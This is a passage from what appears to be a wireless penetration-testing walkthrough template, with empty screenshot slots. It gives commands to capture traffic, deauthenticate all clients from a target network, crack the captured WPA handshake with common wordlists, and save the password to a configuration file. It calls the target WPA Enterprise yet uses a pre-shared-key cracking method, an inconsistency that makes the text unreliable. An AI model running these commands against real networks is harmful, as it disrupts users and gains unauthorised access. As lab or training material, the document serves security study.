 We find our WPA Enterprise network of interest:

**Screenshot of initial airodump screenshot goes here:  
**![](Files/image.png)

  

  

2. We try a more targeted scan: 

```
sudo airodump-ng wlan0mon --bssid <BSSID>  --channel <CHANNEL> -w <FILE_PREFIX> --output-format pcap
```

**Screenshot of targeted airodump goes here:**

![](Files/image.png)

  

  

3. If there are any clients, we can attempt to de-authenticate them all: 

```
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon

```

  

  

4. We see that we get a WPA handshake during our `airodump-ng`  scan: 

**Screenshot of 4-way handshake:**

![](Files/image.png)

  

  

5. We can conclude the `airodump-ng`  scan and we can proceed to crack the 4-way handshake. 

```
sudo aircrack-ng <PCAP FILE> -w /usr/share/wordlists/rockyou.txt

sudo aircrack-ng <PCAP FILE> -w /usr/share/john/password.lst
```

**Screenshot of cracking 4-way handshake:**

![](Files/image.png)

  

  

6. After cracking the password, we can include the password inside of the network configuration file: 

  

- WiFi configuration file we can save as `wpa.conf` 
